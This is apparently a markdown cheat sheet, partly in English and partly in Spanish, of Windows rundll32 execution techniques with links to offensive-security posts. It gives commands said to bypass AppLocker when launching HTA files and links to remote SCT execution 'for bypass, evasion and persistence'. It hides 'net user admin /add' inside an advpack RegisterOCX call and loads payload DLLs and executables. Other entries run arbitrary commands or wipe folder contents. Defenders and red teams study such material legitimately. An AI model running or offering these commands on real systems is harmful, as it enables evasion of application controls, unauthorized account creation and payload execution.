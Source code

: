 # Rundll32 commands for Windows
https://www.jesusninoc.com/2017/04/12/rundll32-commands-for-windows/

# Looking for other ways to launch your favorite HTA? Try these:
https://twitter.com/bohops/status/974043815655956481

```MS-DOS
rundll32.exe url.dll,OpenURL "local\path\to\harmless.hta"
rundll32.exe url.dll,OpenURLA "local\path\to\harmless.hta"
```

- Seems to bypass AppLocker Default Rules
- Does not handle actual Web URLs seamlessly

# SCT Execution Remote Via INFScript Useing ( SysSetup )
https://twitter.com/harr0ey/status/975350238184697857

InSide INFScript By @subTee Regsvr32 in INFScript

```MS-DOS
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
```

Raw INFScript Code ?
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415

Video INFScript 
https://www.youtube.com/watch?v=R7rT63905i0

Leveraging INF-SCT Fetch & Execute Techniques For Bypass, Evasion, & Persistence
https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/

# rundll32
https://www.jesusninoc.com/2017/04/12/rundll32-commands-for-windows/

Abrir la calculadora
```MS-DOS
rundll32 zipfldr.dll, RouteTheCall calc.exe
rundll32 advpack.dll, RegisterOCX calc.exe
```
Crear un usuario
```MS-DOS
rundll32 advpack.dll, RegisterOCX "cmd.exe /c net user admin /add && rem .exe"
```
You looking out for that "RegisterOCX" function in IEAdvpack.dll?  
```MS-DOS
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.dll
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.exe
```
Llame al Asistente de conexión de la unidad de red
```MS-DOS
rundll32.exe shell32.dll, SHHelpShortcuts_RunDLL Connect
```
Abra un cuadro de diálogo que muestra la versión del sistema operativo Windows. También puede mostrar este cuadro de diálogo ejecutando el comando winver.exe
```MS-DOS
rundll32.exe shell32.dll, ShellAboutA
```
Muestra el árbol del sistema de archivos del disco duro de la computadora
```MS-DOS
rundll32.exe IEAKENG.dll, BrowseForFileA
```
Llame al cuadro de diálogo AYUDA Y SOPORTE en la página especificada. Por ejemplo, puede usar la llamada mshelp como la página html: // Windows /? Id = 33307acf-0698-41ba-b014-ea0a2eb8d0a8
```MS-DOS
rundll32.exe ndfapi.dll, NdfRunDllHelpTopic "html-page"
```
Llame al diálogo ABRIR COMO ... para abrir este archivo
```MS-DOS
rundll32.exe shell32.dll, OpenAs_RunDLL "ruta y nombre de archivo"
```
Muestra el cuadro de diálogo de la utilidad de red del cliente de SQL Server
```MS-DOS
rundll32.exe shell32.dll, Control_RunDLL Cliconfg.dll
```
Muestra el cuadro de diálogo Eliminar dispositivo
```MS-DOS
rundll32.exe shell32.dll, Control_RunDLL Hotplug.dll
```
Reescribe el contenido de este archivo
```MS-DOS
rundll32.exe admparse.dll, CheckDuplicateKeysA "ruta y nombre de archivo"
```
Crea una carpeta. Si esta carpeta ya existe, se borrarán todos sus contenidos
```MS-DOS
rundll32.exe IEAKENG.dll, BToolbar_SaveA "ruta a la carpeta"
```
Inicia el navegador de Internet Explorer y descarga la página http://g.msn.com/WMHFUSEN/101724
```MS-DOS
rundll32.exe appwiz.cpl, GetProgramsOnline
```
Ejecuta el comando.
```MS-DOS
rundll32.exe shell32.dll, ShellExec_RunDLL "comando"
```
Abra la carpeta. Si no especifica una carpeta, se abrirá la carpeta de su perfil
```MS-DOS
rundll32.exe url.dll, FileProtocolHandler "directorio"
```
Elimina todos los archivos de la carpeta especificada que tienen el atributo FILEATTRIBUTETAGINFORMATION
```MS-DOS
rundll32.exe WININET.dll, RunOnceUrlCache "ruta a la carpeta"
```
Ejecute el archivo xml
```MS-DOS
rundll32.exe xwizards.dll, ProcessXMLFile "ruta y nombre del archivo xml"
```
Presiona el botón derecho del mouse
```MS-DOS
rundll32.exe user32.dll, mouse_event
```
Coloque el cursor en la esquina inferior derecha de la pantalla
```MS-DOS
rundll32.exe user32.dll, SetCursorPos
```
Detener el servicio de actualización en segundo plano dfsvc.exe
```MS-DOS
rundll32.exe dfshim.dll, KillService
```
Ejecuta los comandos descritos en la rama de registro HKLM \ SOFTWARE \ Microsoft \ Windows \ CurrentVersion \ RunOnceEx (o en la rama de la partición raíz HKCU)
```MS-DOS
rundll32.exe IERNONCE.dll, RunOnceExProcess
```
